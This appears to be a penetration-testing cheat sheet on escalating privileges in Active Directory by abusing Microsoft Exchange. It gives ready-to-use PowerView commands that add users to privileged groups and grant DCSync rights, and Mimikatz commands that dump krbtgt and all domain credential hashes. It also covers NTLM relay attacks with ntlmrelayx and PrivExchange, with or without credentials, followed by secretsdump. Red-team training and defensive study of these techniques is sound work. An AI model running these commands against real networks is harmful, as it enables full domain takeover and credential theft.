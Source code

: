 ````
. ./Powerview.ps1
Get-DomainGroup *exchange*
```

#### Enumerate membership of the groups
```
Get-DomainGroupMember "Organization Management"
Get-DomainGroupMember "Exchange Trusted Subsystem"
Get-DomainGroupMember "Exchange Windows Permissions"
```

#### If we have privileges of a member of the Organization Management, we can add a user to the 'Exchange Windows Permissions' group.
```
$user = Get-DomainUser -Identity <USER>
$group = Get-DomainGroup -Identity 'Exchange Windows Permissions'
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

#### Add permissions to execute DCSYNC
- When member of the ```Exchange Windows Permissions``` group
```
Add-DomainObjectAcl -TargetIdentity 'DC=<PARENT DOMAIN>,DC=<TOP DOMAIN>' -PrincipalIdentity '<USER>' -Rights DCSync -Verbose
```

#### Execute DCSYNC
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

#### If we have privileges of 'exchange user', who is a member of the Exchange Trusted Subsystem, we can add any user to the DNSAdmins group:
```
$user = Get-DomainUser -Identity <USER>
$group = Get-DomainGroup -Identity 'DNSAdmins'
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

### NTLM Relay MS Exchange abuse
- https://pentestlab.blog/2019/09/04/microsoft-exchange-domain-escalation/
- https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/

#### The attack using domain credentials
- https://github.com/dirkjanm/privexchange/
- Can either relay to `ldap` or `ldaps`
```
sudo python3 ntlmrelayx.py -t ldap://<DC> --escalate-user <USER>

python3 privexchange.py -ah <ATTACKER HOST> <EXCHANGE SERVER> -u Username -d <DOMAIN NAME>

secretsdump.py <DOMAIN>/<USER>@<DC IP> -just-dc
```

#### The attack without credentials
- using LLMNR/NBNS/mitm6 spoofing and https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py
```
sudo python3 ntlmrelayx.py -t https://<EXCH HOST>/EWS/Exchange.asmx
```

#### Restore ACL's with aclpwn.py
- NTLMRelayx performs acl attacks a restore file is sived that can be used to restore the ACL's

```
````